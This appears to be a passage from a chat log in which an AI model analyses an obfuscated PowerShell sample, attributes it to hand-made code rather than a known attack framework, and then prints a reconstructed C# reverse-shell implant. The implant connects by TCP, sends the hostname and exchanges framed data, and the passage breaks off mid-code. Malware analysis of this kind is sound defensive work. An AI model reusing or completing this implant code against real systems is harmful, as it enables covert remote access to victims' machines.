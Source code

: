 
So my take:

-   **Not** a signature of something like Empire, Metasploit’s `psh_payload`, or Cobalt Strike’s default stagers — those have very different templates.
    
-   **Looks more like**: hand-modified code from a public reverse shell PoC (maybe from GitHub or a pentest toolkit) with a few string-reversal tricks. Could easily have been done with a few lines of Python or PowerShell, not a dedicated “obfuscation software.”
    

If you want, I can try to **reverse the C# block completely** and see if there’s any leftover watermark or variable naming pattern that might link it to a known framework. That would tell us if this came from, say, PowerSploit or Nishang originally.

---
### User
yes

---
### GPT5
Short answer: it looks **hand-rolled**, not from a known obfuscator. I reversed the embedded C# as far as your sample allows (it’s truncated mid-string), and there’s **no watermark, namespace, or signature** you’d expect from Empire, Cobalt Strike PS stagers, Nishang, PowerSploit, Invoke-Obfuscation, etc. It’s just reversed text + a tiny Base64 trick.

Here’s the reconstructed **structure** of the in-memory .NET implant (class/method names are single letters—another DIY tell):

```
using System;
using System.Text;
using System.Diagnostics;
using System.Net.Sockets;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Threading;

public class A {
    public TcpClient b;
    public NetworkStream c;

    public A(string d, int e) {               // connect
        b = new TcpClient();
        b.Connect(d, e);
        c = b.GetStream();
    }

    private void f() {                         // send hostname
        byte[] g = Encoding.Default.GetBytes(System.Net.Dns.GetHostName());
        c.Write(g, 0, g.Length);
    }

    public void h() { c.Close(); }             // close
    public void i(byte[] j) {                  // write bytes
        c.Write(BitConverter.GetBytes(j.Length), 0, 4);
        c.Write(j, 0, j.Length);
        c.Flush();
    }

    public byte[] k() {                        // read framed chunk
        byte[] l = new byte[4];
        if (c.Read(l, 0, 4) != 4) return null;
        byte[] m = new byte[BitConverter.ToInt32(l, 0)];
        int n = 0;
```
